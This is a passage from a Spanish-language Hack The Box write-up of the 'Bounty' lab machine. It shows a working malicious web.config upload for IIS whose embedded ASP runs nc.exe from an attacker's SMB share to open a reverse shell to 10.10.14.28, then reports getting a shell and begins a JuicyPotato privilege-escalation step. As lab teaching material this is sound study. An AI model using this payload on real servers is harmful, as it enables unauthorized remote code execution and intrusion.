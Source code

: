 Subo el archivo y si me voy a http://bounty.htb/uploadedfiles/web.config

![](https://lh3.googleusercontent.com/d-jTfjz_SweoKysJM4kgDFaQ3slCZ3kcGgvibkYec35yWygDxM2d4eofynhRXSiJCfezMOiLxYDpeRegQfHb2fT52MDf6bht706Wn7pc_uM9KMNzzvra2NOFjoTXnOaR-xMRGBnj)

Vemos que efectivamente recibimos la traza ICMP.

Ahora me levantaré un servidor con samba compartiendo el `nc.exe` para mandarme una shell directamente desde mi servidor utilizando el archivo de configuración **web.config**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("\\10.10.14.28\smbFolder\nc.exe -e cmd 10.10.14.28 1234")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```
Por ultimo dejo mi netcat a la escucha de cualquier conexión entrante.

![](https://lh6.googleusercontent.com/JCGbrRbbkWt3qR4IsljrWcksi_86M50gNV6HYfjUKolA8kQElKlckbNysCgu8YiSY1_RXjOXKTFS4mgJnkDot13zNP3SxYsyLsDkRlC48RFiMaa08nwgcC32KcR39EbCaonDeV7B)

Y obtenemos una shell como el usuario `merlin`. Una vez dentro de la máquina comienzo a enumerar el sistema para buscar posibles vías para escalar a administrador.

# Escalación de privilegios con Juicypotato.exe

Cuando ejecuto el comando `whoami /priv`.
